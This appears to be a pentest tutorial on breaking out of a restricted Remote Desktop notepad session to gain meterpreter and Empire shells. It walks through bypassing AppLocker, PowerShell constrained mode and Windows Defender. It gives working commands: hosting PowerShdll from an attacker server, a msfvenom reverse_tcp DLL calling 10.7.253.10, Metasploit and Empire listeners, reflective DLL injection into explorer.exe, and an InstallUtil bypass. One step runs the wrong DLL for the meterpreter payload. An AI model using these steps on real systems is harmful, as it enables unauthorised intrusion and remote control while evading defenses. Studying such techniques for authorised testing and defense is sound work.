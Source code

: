 # From RDS app to Empire shell
This article details a scenario where you only have access to a Remote Desktop Service. This effectively atttemps to lock you to one application one, much similar to Citrix seen in corporate environments.
Additionally this scenario has Applocker on the target box, Powershell is in Language Constrained Mode which prevents many powershell tricks from being used. On top of that Windows Defender is eating your shells.

**Requirements:**
* The RDS server does not block port 80 outbound.
* .Net v3.5 for dll mode in PowerShdll

**Important notes**
powershell.exe _is_ not Powershell. It just hosts the assembly that contains PowerShell and handles I/O. System.Management.Automation.dll
Learn more from the links at the bottom of this article.

#### Getting shell from RDS notepad
https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/
https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/

From the notepad app
Click Help -> View help -> triggers Internet Explorer
Right click on anything -> save target as -> save as lol.ps1 on the Desktop
Press view downloads in IE, press the dropdown on the file, open with -> notepad. then just write powershell.exe in the file and save again
Now right click -> "save target as" in IE again. Go to the dropdown "save as type" and select "all files". The ps1-file you have saved will be revealed and you can just press "run with powershell" and a powershell prompt should pop up. This shell should be in Constrained mode. Verify with `$ExecutionContext.SessionState.LanguageMode`, which should say `ConstrainedLanguage`.

#### Bypssing PoSh constrained mode
Download PowerShdll
https://github.com/p3nt4/PowerShdll
Now go to IE again, host powershdll.dll on Kali web server using `python -m SimpleHTTPServer 80`
Navigate to the following URL in IE where http://10.7.253.10/PowerShdll.dll
Save as -> PowerShdll.dll to whatever folder you like. `C:\Windows\Tasks` is generally nice to use when Applocker is installed because it is usually whitelisted. I'm not sure exactly how to check for DLL rules in an Applocked environment yet.
Now navigate to the desktop in the other powershell prompt
Use rundll32 to execute the dll
`rundll32 .\PowerShdll.dll,main -w`
A new interactive powershell prompt should pop up
Verify that constrained language mode has been bypassed with
$ExecutionContext.SessionState.LanguageMode
It should say FullLanguage

#### Getting meterpreter shell
Generate a dll payload
```
msfvenom windows/x64/meterpreter/reverse_tcp lhost=10.7.253.10 lport=8081 -f dll -o msf.dll
```
Set up listener in msf with same payload, host and port.

```
use multi/handler
set host tun0
set port 8081
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Download the msf.dll using the IE "save as" trick from before. For some reason I am not sure the dll payload is not taken by Windows Defender, not on disk and not when executed.
Now, use rundll32 to execute the dll. We use this because rundll32 is a binary that will not be blocked by Applocker.

`rundll32 .\PowerShdll.dll,Control_RunDLL`

Shell should now spawn in msf.

#### Empire without powershell.exe
This assumes you have a metasploit Session established.
In Empire, create an empire listener and stager. The important things is to set Base64 to false to prevent the stager from calling powershell.exe, which won't work here because of the constrained language mode.
```
uselistener http
set Host 10.7.253.18
set Port 4444
execute
back
usestager multi/launcher
set Base64 false
generate
```

Now in MSF:
```
load powershell
powershell_shell
```
Copypaste the empire listener in the interactive shell, and an agent should spawn in Empire. Congratulations!




## More advanced technique

#### Bypassing powershell constrained mode and applocker
This technique involves packing everything together several times to bypass all the security mechanisms. I recommend reading the article below and trying to replicate each step. Albeit, I have made a step by step overview of it below.
https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell

1 Generate a listener and a hta stager using windows/hta

2 Open ReflectivePick project in visual studio. Add the hta base64 shell stager where appropriate and compile the dll to `ReflectivePick_x64.dll`

3 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file
```
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\Windows\Tasks\dll.txt"
```


4 Copypaste the content of dll.txt into a new variable in Invoke-ReflectivePEInjection.ps1
```
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```


5 Base64 encode the entire script using https://www.base64encode.org/
Open the Bypass project in VS and copypaste the base64 into the encoded variable.
Compile to Bypass.exe with VS.

6 Use installutil.exe to execute bypass.exe

```
set-location \\tsclient\lkylabs
copy-item .\Bypass.exe c:\windows\tasks
cd c:\windows\tasks
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```


### Useful links

* https://github.com/Ben0xA/AwesomerShell
* https://www.youtube.com/watch?v=czJrXiLs0wM
* https://adsecurity.org/?p=2921
* https://bneg.io/2017/07/26/empire-without-powershell-exe/
* https://artofpwn.com/offensive-and-defensive-powershell-ii.html
* https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell
* https://github.com/caseysmithrc/DeviceGuardBypasses
* https://github.com/Joshua1909/AllTheThings
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html

